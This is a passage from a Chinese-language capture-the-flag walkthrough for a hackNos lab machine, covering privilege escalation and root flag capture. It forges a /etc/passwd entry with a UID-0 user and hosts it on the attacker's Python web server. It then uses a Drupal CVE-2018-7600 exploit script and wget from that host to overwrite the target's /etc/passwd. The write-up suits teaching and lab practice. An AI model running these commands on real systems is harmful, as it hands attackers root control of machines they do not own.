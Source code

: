 ```
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
moon:$1$moon$8F2YI9c3zhkkS9SOsKawY0:0:0:root:/root:/bin/bash
```

复制到本地生成文件passwd

在kali中生成密码

![image-20230628232349133](image-20230628232349133.png)

将moon加入到伪造的passwd，并赋予root权限

![image-20230628232408828](image-20230628232408828.png)

将passwd放到开启了python  httpserver的文件夹中

然后使用

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c "wget http://192.168.5.129:8000/passwd -O /etc/passwd"  
```

或者直接在已有的shell中进行

```
wget http://192.168.5.129:8000/passwd -O /etc/passwd
```

然后在已有的shell中进行切换用户

![image-20230628232454442](image-20230628232454442.png)



```

root@hackNos:/var/www# cd ~
cd ~
root@hackNos:~# ls
ls
root.txt
root@hackNos:~# cat root.txt
cat root.txt
    _  _                              _   
  _| || |_                           | |  
 |_  __  _|______  _ __  ___    ___  | |_ 
  _| || |_|______|| '__|/ _ \  / _ \ | __|
 |_  __  _|       | |  | (_) || (_) || |_ 
   |_||_|         |_|   \___/  \___/  \__|
                                          
                                          

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Linkedin : https://www.linkedin.com/in/rahulgehlaut/

Blog : www.hackNos.com

```

